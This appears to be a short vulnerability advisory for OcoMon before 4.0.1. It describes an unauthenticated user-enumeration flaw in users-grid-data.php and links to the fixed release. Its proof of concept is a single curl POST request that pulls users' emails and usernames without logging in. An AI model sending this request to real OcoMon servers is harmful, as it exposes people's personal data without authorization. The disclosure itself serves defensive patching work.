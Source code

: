 # OcoMon < 4.0.1  - User enumeration

# Description

The vulnerability allows the attacker to obtain information such as Email, Username of the OcoMon users.

## Bug - 1

The vulnerability occurs because the users-grid-data.php file does not validate authentication/session.

![image](https://i.imgur.com/Mj489wN.png)

# PoC

```
curl -i -s -k -X 'POST' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF -Mode: cors' --data-binary 'draw=1&columns%5B0%5D%5Bdata%5D=0&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=true&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=1&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=true&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=2&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=true&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=3&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=true&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B4%5D%5Bdata%5D=4&columns%5B4%5D%5Bname%5D=&columns%5B4%5D%5Bsearchable%5D=true&columns%5B4%5D%5Borderable%5D=true&columns%5B4%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B4%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B5%5D%5Bdata%5D=5&columns%5B5%5D%5Bname%5D=&columns%5B5%5D%5Bsearchable%5D=true&columns%5B5%5D%5Borderable%5D=true&columns%5B5%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B6%5D%5Bdata%5D=6&columns%5B6%5D%5Bname%5D=&columns%5B6%5D%5Bsearchable%5D=true&columns%5B6%5D%5Borderable%5D=true&columns%5B6%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B6%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B7%5D%5Bdata%5D=7&columns%5B7%5D%5Bname%5D=&columns%5B7%5D%5Bsearchable%5D=false&columns%5B7%5D%5Borderable%5D=false&columns%5B7%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B7%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B8%5D%5Bdata%5D=8&columns%5B8%5D%5Bname%5D=&columns%5B8%5D%5Bsearchable%5D=false&columns%5B8%5D%5Borderable%5D=false&columns%5B8%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B8%5D%5Bsearch%5D%5Bregex%5D=false&order%5B0%5D%5Bcolumn%5D=0&order%5B0%5D%5Bdir%5D=asc&start=0&length=10&search%5Bvalue%5D=&search%5Bregex%5D=false&areaAdmin=0' 'https://ocomon/admin/geral/users-grid-data.php'
```

![image](https://i.imgur.com/ZHGy3th.png)


## FIX

https://ocomonphp.sourceforge.io/downloads/
